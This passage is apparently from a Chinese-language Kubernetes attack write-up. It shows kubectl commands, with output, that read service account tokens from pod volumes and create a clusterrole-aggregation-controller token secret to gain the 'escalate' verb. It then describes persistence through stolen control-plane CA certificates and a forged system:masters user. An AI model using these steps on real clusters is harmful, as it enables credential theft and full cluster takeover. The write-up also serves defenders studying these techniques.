 拥有了create和get secret、描述角色/角色绑定、描述集群角色/集群角色绑定权限的攻击者，可以确定哪些服务帐户具有高权限，并设法拿到这些服务帐户。然后，他们可以创建一个新的ServiceAccount令牌secret，并利用该令牌secret来使用和该"服务账户"绑定的那些权限，通过k8sAPI身份验证。

攻击者可以用来提升权限的另一种办法是：获取clusterrole-aggregation-controller"服务账户"的secret。这个角色具有升级动词，可用于实现集群管理（升级动词允许攻击者绕过“k8s对提升权限的限制”）。

本次的研究环境没有创建secret，而是使用了能够创建secret权限的"服务账户"，然后获取了创建的"服务账户"secret。

在 kube-system命名空间里创建escalation secret

```plain
# 创建具有"升级权限"的token
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /root/create-secrets-token) --namespace=kube-system --server=https://192.168.10.100:6443 create -f create-sa-token.yaml secret/clusterrole-aggregation-controller created

# 获取新创建的secret
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/token) --namespace=kube-system --server=https://192.168.10.100:6443 get secrets clusterrole-aggregation-controller -o yaml | grep token | grep -v k8s | cut -f 2 -d ':' | tr -d ' ' | base64 -d > /root/clusterrole-aggregation-controller-token

# 执行auth can-i ，发现这个新的scret具有升级权限
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /root/clusterrole-aggregation-controller-token) --namespace=kube-system --server=https://192.168.10.100:6443 auth can-i --list

Resources                        Verbs
clusterroles.rbac.authorization.k8s.io      [escalate get list patch update watch]
```

## 后渗透阶段

一旦攻击者实现了集群管理，就可以开始“后渗透阶段”：做好权限维持，避免初始攻击方法被发现、被清理。

k8s中有许多路径实现权限维持：Linux环境下攻击者可以利用这些权限维持方法。

### System:Masters Group

攻击者(cluster admin)可以在任何一个control plane节点上建立据点，并窃取 `/etc/k8s/pki`里的CA证书。

攻击者还可以窃取k8s和ETCD证书。这样，攻击者可以通过“k8s API”和(承载k8s环境所有信息的)“ETCD数据库”的身份验证，拿到ETCD的内容，并进一步渗透。

k8s证书可以在`system:master`组中创建一个新的user。

`system:masters`组能够不受限制地访问k8s API，无需任何角色或角色绑定。

每个角色和角色绑定都可以从k8s环境中删除，但是，能访问`system:masters`组的攻击者仍然对整个集群具有完整的管理权限。

在 system:masters组中创建帐户说起来容易做起来难，因为它在k8s内被一个名为CertificateSubjectRestriction的准入控制器阻止，虽然这个准入控制器不会批准system:masters 组的证书签名请求，但攻击者仍然可以使用其他工具（如openssl）创建证书。如果攻击者拥有来自Control Plane node的有效CA证书，他们可以在另一台计算机上创建他们的用户证书，并使用它们实现完全控制。
